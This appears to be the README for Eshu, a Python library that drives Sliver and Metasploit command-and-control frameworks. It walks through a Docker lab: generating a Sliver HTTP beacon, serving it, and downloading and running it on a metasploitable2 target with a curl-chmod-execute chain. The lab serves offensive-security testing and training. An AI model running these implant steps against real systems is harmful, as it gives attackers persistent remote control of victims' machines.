 # Eshu Python Library v5

Common Language Platform for multiple Command and Control Frameworks

## Testing Lab Setup
This is an environment using Docker with test targets to
demonstrate using the Eshu CLP Python Library.

### To Simply Start...
Start Daemonized services

```console
docker compose up -d --build
```

Then launch into the operator machine in one terminal
```console
docker exec -it operator /bin/bash
```

To test network connection to vulnerable machine(VM)
```bash
ping 10.1.1.3
nmap -l metasploitable2
```

#### Firstly, setting up Sliver Server
In one terminal (Sliver Server):
```bash
docker exec -it operator /bin/bash
sliver-server
> new-operator --name operator1 --lhost localhost
> multiplayer
```

#### Secondly, setting up Sliver Client instance
In second terminal (Sliver Client):
```bash
docker exec -it operator /bin/bash
sliver-client import operator1_localhost.cfg
sliver-client
> generate beacon --seconds 5 --jitter 0 --http 10.1.1.2 --os linux --arch amd64 --name testbeacon
> http	
```

#### Thirdly, set up server to transfer implant for exploitation
In third terminal (operator workspace):
```bash
docker exec -it operator /bin/bash
python -m http.server 8080
```

#### Fourth, download and run implant on vulnerable machine
In fourth terminal (metasploitable2):
```bash
docker exec -it metasploitable2 /bin/bash
curl -O http://10.1.1.2:8080/testbeacon && chmod +x testbeacon && sudo service apache2 stop && ./testbeacon

```

#### Lastly, run main.py for simultaneous Metasploit and Sliver behavior
```bash 
python eshuCLP/main.py
```

#### Clean Up
To stop all running containers
```console
docker compose stop
```

If stopped, start again with
```console
docker-compose start
```

To kill and remove all the running containers
```console
docker compose down
```